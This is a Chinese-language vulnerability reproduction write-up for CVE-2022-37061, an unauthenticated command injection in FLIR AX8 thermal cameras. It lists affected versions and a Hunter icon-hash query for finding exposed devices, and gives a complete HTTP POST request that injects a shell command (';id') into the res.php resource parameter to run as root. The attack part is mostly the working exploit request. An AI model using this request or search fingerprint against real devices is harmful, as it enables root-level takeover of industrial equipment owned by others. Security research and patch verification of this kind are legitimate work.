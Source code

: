 # FLIR-AX8热成像仪res.php远程命令执行漏洞（CVE-2022-37061）

# 一、漏洞简介
FLIR-AX8是美国菲力尔公司（Teledyne FLIR）旗下的一款工业红外热像仪AX8，英文名为Teledyne FLIR AX8 thermal sensor cameras。菲力尔公司专注于设计、开发、生产、营销和推广用于增强态势感知力的专业技术，通过热成像、可见光成像、视频分析、测量和诊断以及先进的威胁检测系统，将创新的传感解决方案带入日常生活中，广泛服务于政府与国防、工业和商业市场。FLIR AX8 版本 1.46.16 及以下未经身份验证的远程操作系统命令注入漏洞。res.php 页面中的 id 参数可以通过命令拼接，以 root 用户身份注入和执行任意 shell 命令，成功的利用可能允许攻击者以 root 权限在底层操作系统上执行任意命令。

# 二、影响版本
+ FLIR-AX8 1.46.16及以下

# 三、资产测绘
+ hunter`web.icon=="f4370ff0b4763e18159cd7cdf36a4542"`
+ 登录页面

![1694186568199-799956f5-3035-4a87-903e-1f67c1769f8b.png](./img/iXVn8Cpt4z6Nrh1L/1694186568199-799956f5-3035-4a87-903e-1f67c1769f8b-274172.png)

# 四、漏洞复现
```plain
POST /res.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: theme=light; distanceUnit=metric; temperatureUnit=celsius; showCameraId=false; clientTimeZoneOffset=-480; clientTimeZoneDST=0; PHPSESSID=8ff0e4065c8a04d1894ddde494f0fe8d
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

action=node&resource=1;id
```

![1694186735678-95a1cc2e-58c0-47de-b006-fa265dae6848.png](./img/iXVn8Cpt4z6Nrh1L/1694186735678-95a1cc2e-58c0-47de-b006-fa265dae6848-356757.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/afi319vymbd33bg3>